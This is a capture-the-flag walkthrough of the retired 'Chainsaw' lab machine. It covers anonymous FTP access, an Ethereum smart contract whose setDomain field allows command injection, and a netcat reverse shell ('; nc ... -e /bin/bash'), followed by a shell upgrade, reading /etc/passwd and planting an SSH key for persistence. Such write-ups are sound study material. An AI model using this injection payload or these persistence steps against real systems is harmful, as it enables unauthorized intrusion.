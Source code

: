 **Chainsaw** is a retired vulnerable VM from Hack. This box is about Solidity, Ethereum Blockchain and IPFS Exploitation. 

#### Enumeration

To begin the enumeration process, a **TCP/UDP** port scan was run against the target using nmap. The purpose of scan is to quickly determine which ports are open and which services are running. 

###### OS Information
Based on the Apache version, it looks like we are dealing with Xenial / Ubuntu 16.04 based system.

###### Open Ports and Services :
In addition to usual ports

+ Port 21 : FTP Server which allows anonymous login
+ Port 22 : SSH Server
+ Port 9810 : A webserver ?

###### Anonymous FTP:

```python

➜  chainsaw ftp 10.10.10.142
Connected to 10.10.10.142.
220 (vsFTPd 3.0.3)
Name (10.10.10.142:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001        23828 Dec 05  2018 WeaponizedPing.json
-rw-r--r--    1 1001     1001          243 Dec 12  2018 WeaponizedPing.sol
-rw-r--r--    1 1001     1001           44 May 31 16:20 address.txt
226 Directory send OK.
ftp> mget *
```
We have got three interesting files from FTP server, after a bit of researching i found out these files are belong to a etherum smart contract.

#### What is a Smart Contract ?

> A smart contract is an agreement between two people in the form of computer code. They run on the blockchain, so they are stored on a public database and cannot be changed.

#### Analyzing Smart Contract

WeaponizedPing.json - A compiled Solidity smart-contract in JSON format
WeaponizedPing.sol - .sol extention means its an Ethereum smart-sontract written in Solidity
address.txt - Possibly an address on a blockchain where the contract is been deployed.



**Lets take a look at the solidity code:**
WeaponizedPing.sol

```python
pragma solidity ^0.4.24;

contract WeaponizedPing
{
  string store = "google.com";

  function getDomain() public view returns (string)
  {
      return store;
  }

  function setDomain(string _value) public
  {
      store = _value;
  }
}
```

+ Smart contracts is written in Solidity, which is a contract-oriented, high-level language for implementing smart contracts.
+ A getDomain function and setDomain which accepts a string_value. 
+ The getDomain function  retrieves the current value of the domain string
+ setDomain set a value for the domain string

##### Initial Foothold:

After some enumeration and reading about etherum blockchain i was able to determine the service running in tcp port 9810 was Ganache CLI.

> Ganache (formally known as testrpc) is an Ethereum implementation written in Node.js meant for testing purposes while developing dapps locally.

Ganache CLI uses ethereumjs to simulate full client behavior and make developing Ethereum applications faster, easier, and safer. It also includes all popular RPC functions and features (like events) and can be run deterministically to make development a breez.

To interact with the Ethereum blockchain, i will be using python library web3.py. To interact with the Smart Contract, we need:

+ the address to identify the contract
+ Application Binary Interface of the contract

To test this vulnerability we can use setDomain() function and set the domain to our localhost  and then call getDomain(). This will make the contract ping localhost, if ping successful we know we got remote code execution.

###### Building Python Script
To test our theory So let’s start building a python script to interact with this contract.
```python

from web3 import Web3
import json
```
+ web3.Web3 intract with the blockchain
+ json to load the WeaponizedPing.json



My final exploit is shown below

#### Initial Shell

Now that we know we can do RCE, lets replace the ping with our payload.


Capturing packets:
```python

➜  chainsaw tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
14:11:28.037126 IP 10.10.10.142 > 10.10.14.35: ICMP echo request, id 18359, seq 1, length 64
14:11:28.037206 IP 10.10.14.35 > 10.10.10.142: ICMP echo reply, id 18359, seq 1, length 64
```

###### Running the exploit

> python3 chainsaw.py '; nc 10.10.14.35 4444 -e /bin/bash'

###### Waiting for reverse shell

```python

➜  chainsaw nc -lvnp 4444                                           
listening on [any] 4444 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.10.142] 40676
id
uid=1001(administrator) gid=1001(administrator) groups=1001(administrator)
python -c 'import pty; pty.spawn("/bin/bash")'
administrator@chainsaw:/opt/WeaponizedPing$ 

```
Before doing anything i upgraded the shell to a fully tty. After that i quickly searched for the user.txt but it is not here, so back to further enumeration. 

###### Enumeration:
I dropped my SSH public key into the /home/administrator/.ssh/authorized_keys file so i can get into the system easily, without having to run the exploit again and again.

Checked to see if their is anyother users in the system

```python

administrator@chainsaw:/home$ awk -F: '$3 >= 1000 {print}' /etc/passwd
awk -F: '$3 >= 1000 {print}' /etc/passwd
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
bobby:x:1000:1000:Bobby Axelrod:/home/bobby:/bin/bash
administrator:x:1001:1001:Chuck Rhoades,,,,IT Administrator:/home/administrator:/bin/bash
administrator@chainsaw:/home$ 
```


